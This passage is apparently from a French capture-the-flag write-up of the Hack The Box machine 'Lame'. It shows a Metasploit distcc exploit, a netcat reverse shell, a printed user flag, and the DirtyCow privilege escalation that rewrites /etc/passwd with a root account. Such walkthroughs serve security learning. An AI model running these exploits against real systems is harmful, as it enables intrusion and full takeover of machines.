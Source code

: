 ```sh


View the full module info with the info, or info -d command.

msf6 exploit(unix/misc/distcc_exec) > run

[*] 10.10.10.3:3632 - The remote distccd did not reply to our request
[*] Exploit completed, but no session was created.
msf6 exploit(unix/misc/distcc_exec) > 
```

Dans mon listener, je recois la connexion de la machine distant. Enfin je lis le fichier `user.txt`.

```sh
# sudo rlwrap nc -lnvp 1338                    
listening on [any] 1338 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.3] 37374
bash: no job control in this shell
daemon@lame:/tmp$ whoami
daemon
daemon@lame:/home$ cd makis
daemon@lame:/home/makis$ ls
user.txt
daemon@lame:/home/makis$ cat *
69454a937d94f5f0225ea00acd2e84c5

```


## Privilege Escalation

Pour l'escalation de Privilege, j'execute `linpeas.sh` sur la machine et elle detecte que cette machine est vulnerable au `DirtyCow(CVE-2016-5195)`

```sh
[3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
```

je vais alors copier l'exploit sur la machine, ensuite la compiler avec : ``gcc dirtycow.c -o dirty -pthread`` et puis l'executer

```sh
I have no name!@lame:/tmp$ ./dirty root
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: root
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7f4b000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: root
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7f4b000
madvise 0

```